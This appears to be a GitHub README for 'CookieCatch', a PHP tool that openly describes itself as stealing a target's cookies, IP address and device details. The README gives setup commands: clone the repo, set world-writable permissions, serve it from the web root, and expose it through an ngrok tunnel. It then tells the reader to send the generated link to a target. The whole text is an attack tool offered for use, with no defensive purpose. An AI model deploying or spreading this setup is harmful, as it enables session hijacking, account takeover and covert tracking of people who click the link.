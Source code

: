 # CookieCatch
PHP script for stealing cookies, IP grabbing &amp; Device Information. 

CookieCatch will attemp to steal a targets cookies as well as collect information about the device. Outputs are written in both a textfile & SQLite3 database to allow for use of collected data in other tools.

Usage:
```
git clone https://github.com/4xx404/CookieCatch
cd CookieCatch
chmod 777 catch.php
mv ~/CookieCatch /var/www/html/
php -S localhost:80
```

Include Ngrok:
```
ngrok http 80
```

Send the link link to your target.  
  
Example link using ngrok: http://af9cea23de3.ngrok.io/CookieCatch/
